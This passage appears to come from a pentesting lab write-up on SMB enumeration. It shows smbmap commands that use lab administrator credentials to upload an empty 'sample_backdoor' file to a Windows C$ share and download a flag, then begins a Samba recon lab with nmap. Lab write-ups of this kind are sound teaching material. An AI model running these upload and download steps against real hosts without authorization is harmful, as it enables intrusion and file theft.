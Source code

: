 ![smbmap -r 'Drive$'](assets/image-20230213230747219.png)

- Upload a sample file to the `C:\` drive

```bash
touch sample_backdoor
```

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --upload '/root/sample_backdoor' 'C$\sample_backdoor'
```

```bash
[+] Starting upload: /root/sample_backdoor (0 bytes)
[+] Upload complete
```

![smbmap upload](assets/image-20230213231101878.png)

![smbmap file uploaded](assets/image-20230213231242377.png)

- Download a file, the flag file in this case

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 --download 'C$\flag.txt'
```

```bash
[+] Starting download: C$\flag.txt (32 bytes)
[+] File output to: /root/10.2.21.233-C_flag.txt

cat 10.2.21.233-C_flag.txt
```

![smbmap download](assets/image-20230213231523905.png)

<details><summary>Reveal Flag: 🚩</summary></details>

## Lab 3

>  🔬 [Samba Recon: Basics 1](https://attackdefense.com/challengedetails?cid=553)
>
>  - Target IP: `192.28.157.3`
>  - Linux SMB (**`smbd`**) enumeration

```bash
ip -br -c a
	eth1@if107855   UP   192.28.157.2/24
```

- Target IP is `192.28.157.3`

```bash
nmap 192.28.157.3
	139/tcp open  netbios-ssn
	445/tcp open  microsoft-ds
	# Service is not specific
```
